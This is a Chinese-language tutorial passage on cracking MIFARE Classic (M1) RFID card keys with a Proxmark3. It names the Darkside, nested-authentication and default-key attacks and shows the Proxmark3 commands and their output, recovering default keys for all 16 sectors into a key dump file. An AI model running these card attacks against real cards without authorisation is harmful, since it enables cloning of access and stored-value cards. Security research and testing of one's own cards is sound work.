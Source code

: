 Proxmark3 集成了几种比较高效的 M1 卡片密钥破解的方式：
* Darkside 攻击，获得 0 号扇区密钥
* 嵌套认证攻击，从已知扇区密钥计算未知扇区密钥，通常和 Darkside 配合使用
* 常见预设密钥穷举

我们这边里用 Darkside + nested authentication attack 的方式

    proxmark3> hf mf mifare
    p1:0 p2:0 p3:0 key:ffffffffffff
    p1:d9eb p2:1a4be p3:1 key:1d31575eb3b1
    key_count:2
    ------------------------------------------------------------------
    Found valid key:ffffffffffff

    proxmark3> hf mf nested 1 0 a ffffffffffff d
    Testing known keys. Sector count=16
    nested...
    Time in nested: 0.127 (inf sec per key)

    -----------------------------------------------
    Iterations count: 0

    |---|----------------|---|----------------|---|
    |sec|key A           |res|key B           |res|
    |---|----------------|---|----------------|---|
    |000|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |001|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |002|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |003|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |004|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |005|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |006|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |007|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |008|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |009|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |010|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |011|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |012|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |013|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |014|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |015|  ffffffffffff  | 1 |  ffffffffffff  | 1 |
    |---|----------------|---|----------------|---|
    Printing keys to binary file dumpkeys.bin...
    